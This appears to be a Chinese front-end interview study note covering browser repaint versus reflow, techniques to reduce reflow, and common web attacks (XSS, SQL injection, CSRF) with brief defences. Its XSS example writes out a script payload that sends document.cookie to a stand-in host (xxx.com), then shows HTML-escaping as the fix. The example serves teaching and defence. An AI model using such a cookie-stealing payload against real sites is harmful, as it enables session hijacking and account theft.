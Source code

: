 [参考](https://segmentfault.com/q/1010000000489803)

## repaint 和 reflow 区别

- 重绘：元素外观改变：如颜色、背景色，但元素的尺寸、定位不变，不会影响其他元素的位置
- 重排：重新计算尺寸和布局，可能会影响其他元素的位置，如元素高度的增加，可能会使相邻的元素位置改变

重排必定触发重绘，重绘不一定触发重排。重绘的开销较小，重排的代价较高。

## 减少重排的方法

1. 将多次 dom 修改，合并成 1 次修改（例如：使用 createDocumentFragment 批量操作 DOM）
2. 将多次重排的元素，先脱离文档流，再修改
3. display 为 none，减少重排
4. 使用 BFC 特性，不影响其他元素位置
5. 频繁触发（resize、scroll）使用节流和防抖
6. css3 硬件加速，transform、opacity、filters，开启后，会新建渲染层

## 常见的 web 前端攻击方式

### XSS

- 手段：黑客将 JS 代码插入到网页内容中，渲染时执行 JS 代码
- 预防：特殊字符串替换（前端或后端）

```js
// 用户提交
const str = `
  <p>123123</p>
  <script>
      var img = document.createElement('image')
      // 把 cookie 传递到黑客网站 img 可以跨域
      img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
  </script>
`
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
// 替换字符，无法在页面中渲染
//   &lt;script&gt;
//     var img = document.createElement('image')
//     img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
// &lt;/script&gt;
```

### SQL 注入

- 手段：黑客提交内容时，写入 sql 语句，破坏数据库
- 预防：处理内容的输入，替换特殊字符

### CSRF

- Cross Site Request Forgery 跨站请求伪造
- 手段：黑盒诱导用户去访问另一个网站的接口，伪造请求
- 预防：严格的跨域限制 + 验证码机制
